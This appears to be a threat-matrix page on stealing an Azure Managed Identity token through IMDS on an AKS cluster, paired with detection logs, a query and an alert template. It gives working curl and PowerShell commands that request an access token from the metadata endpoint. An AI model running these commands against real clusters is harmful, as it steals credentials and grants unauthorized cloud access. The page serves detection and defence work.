 # AZT601.2 - Steal Managed Identity JsonWebToken: Azure Kubernetes Service IMDS Request

By utilizing access to IMDS, an attacker can request a JWT for a Managed Identity on an AKS Cluster if they have access to execute commands on the system.

!!! info "Resource" 

	Azure Kubernetes Service

!!! success "Actions" 

	* Microsoft.ContainerService/managedClusters/runcommand/action
	* Microsoft.ContainerService/managedclusters/commandResults/read

!!! example "Examples"

	=== "Python"
	
		`#!python curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s`

	=== "PowerShell"
		
		[`#!powershell powershell.exe -c $a=Invoke-Restmethod -Uri 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01"&"resource=https://management.azure.com/' -Method GET -Headers @{Metadata='true'} -UseBasicParsing;$a.access_token`](https://docs.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/how-to-use-vm-token)
		
    === "Azure Portal"

		![aks](aks.PNG)

!!! abstract "Detections"

	## **Detection Details**

	Logs are only generated when running a command through az cli or Az PowerShell. Using `kubectl` will not generate logs.

	## **Logs**  

    | Data Source        | Operation Name     | Action                                                            | Log Provider |
    |--------------------|---------------------|-------------------------------------------------------------------|--------------|
    | Resource | RunCommand	 | Microsoft.ContainerService/managedClusters/runCommand/action	| AzureActivity |

	## **Queries**

	| Platform | Query |
    |----------|-------|
	| Log Analytics | `#!sql AzureDiagnostics | where log_s has '169.254.169.254'` |	
	
	## **Azure Monitor Alert**
	[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2Fmicrosoft%2FAzDetectSuite%2Fmain%2FAzureThreatResearchMatrix%2FCredentialAccess%2FAZT601%2FAZT601-2.json)
	
!!! faq "Additional Resources"

	* [https://docs.microsoft.com/en-us/azure/aks/command-invoke](https://docs.microsoft.com/en-us/azure/aks/command-invoke)
	* [https://docs.microsoft.com/en-us/azure/aks/use-managed-identity](https://docs.microsoft.com/en-us/azure/aks/use-managed-identity)